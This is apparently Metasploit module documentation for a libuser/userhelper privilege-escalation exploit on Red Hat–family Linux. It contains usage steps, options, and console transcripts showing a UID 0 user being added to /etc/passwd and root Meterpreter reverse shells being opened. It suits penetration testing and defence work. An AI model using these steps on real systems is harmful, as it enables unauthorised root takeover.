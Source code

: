 ## Description

  This module attempts to gain root privileges on Red Hat based Linux
  systems, including RHEL, Fedora and CentOS, by exploiting a newline
  injection vulnerability in `libuser` and `userhelper` versions prior
  to `0.56.13-8` and version `0.60` before `0.60-7`.

  This module makes use of the `roothelper.c` exploit from Qualys to
  insert a new user with `UID=0` in `/etc/passwd`.

  Note, the password for the current user is required by `userhelper`.

  Note, on some systems, such as Fedora 11, the user entry for the
  current user in `/etc/passwd` will become corrupted and exploitation
  will fail.


## Vulnerable Application

  This module has been tested successfully on libuser packaged versions:

  * `0.56.13-4.el6` on CentOS 6.0 (x86_64)
  * `0.56.13-5.el6` on CentOS 6.5 (x86_64)
  * `0.60-5.el7` on CentOS 7.1-1503 (x86_64)
  * `0.56.16-1.fc13` on Fedora 13 (i686)
  * `0.59-1.fc19` on Fedora Desktop 19 (x86_64)
  * `0.60-3.fc20` on Fedora Desktop 20 (x86_64)
  * `0.60-6.fc21` on Fedora Desktop 21 (x86_64)
  * `0.60-6.fc22` on Fedora Desktop 22 (x86_64)
  * `0.56.13-5.el6` on Red Hat 6.6 (x86_64)
  * `0.60-5.el7` on Red Hat 7.0 (x86_64)

  RHEL 5 is vulnerable, however the installed version of `glibc` (`2.5`)
  is missing various functions required by `roothelper.c`.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/libuser_roothelper_priv_esc`
  4. `set SESSION [SESSION]`
  5. `set PASSWORD [PASSWORD]`
  6. `check`
  7. `run`
  8. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### PASSWORD

  Password for the current user. (default: blank)

### WritableDir

  A writable directory file system path. (default: `/tmp`)

### COMPILE

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether `roothelper.c` should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ### libuser 0.56.13-5.el6 on Red Hat 6.6 (x86_64)

  ```
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.QQ4pE9nj.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.SJAEHS' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.245
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.245:46065) at 2018-04-23 13:08:51 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 6 (Linux 2.6.32-504.el6.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-5.el7 on CentOS 7.1-1503 (x86_64)

  ```
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.Ake5GA' (103396 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.vbahMY' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.242:48332) at 2018-04-23 13:13:22 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat 7.1 (Linux 3.10.0-229.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-6.fc21 on Fedora Desktop 21 (x86_64)

  ```
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.ByQC9FHS.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.WnBXJkWDa' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.240
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.240:53201) at 2018-04-23 13:16:32 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 21 (Linux 3.17.4-301.fc21.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

